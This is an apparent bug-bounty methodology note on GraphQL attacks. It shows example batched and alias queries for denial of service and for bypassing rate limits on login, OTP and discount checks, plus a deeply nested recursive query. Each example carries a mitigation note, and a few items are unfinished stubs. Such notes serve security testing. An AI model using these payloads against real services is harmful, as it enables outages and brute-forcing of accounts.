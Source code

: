 
## Batch Query Attacks

GraphQL supports Request Batching. Batched requests are processed one after the other by GraphQL, which makes it a good candidate for Denial of Service attacks, as well as other attacks such as Brute Force and Enumeration.
If a resource intensive GraphQL query is identified, an attacker may leverage batch processing to call the query and potentially overwhelm the service for a prolonged period of time.
```
query {
  t1:systemUpdate
  t2:systemUpdate
  t3:systemUpdate
  t4:systemUpdate
}
```
Or bypass rate limiting on Login, OTP...
```
query isValidDiscount($code: Int) {
    isvalidDiscount(code:$code){
        valid
    }
    isValidDiscount2:isValidDiscount(code:$code){
        valid
    }
    isValidDiscount3:isValidDiscount(code:$code){
        valid
    }
}
```
> [!NOTE]
> if Cost Query Analysis is enabled, it should prevent running batched queries.

## Denial of Service :: Deep Recursion Query Attack

5. If The application offers two types, which reference eachother (Type1 has Type2, and Type2 has Type1), it recursive query to be executed successfully.

![Example](https://github.com/0xGLSS/Bug-Bounty-Methodology/assets/85647797/cc9686ca-662c-4327-95c6-e2e47ceca255)

```
query {
  pastes {
    owner {
      pastes {
        owner {
          pastes {
            owner {
              pastes {
                owner {
                  pastes {
                    owner {
                      pastes {
                        owner {
                          name
                        }
                      }
                    }
                  }
                }
              }
            }
          }
        }
      }
    }
  }
}
```

> [!NOTE]
> if a depth check is implemented it should prevent malicious queries from going through.





5. CSRF over Graphql
6. 

## Ideas:
- Send same reset password token to 2 emails (similar to race condition) using GraphQL Batching attack

## Refrences
- [Bypassing rate limiting using Aliases](https://portswigger.net/web-security/graphql#bypassing-rate-limiting-using-aliases)
- [GraphQL Batching attack](https://lab.wallarm.com/graphql-batching-attack/)

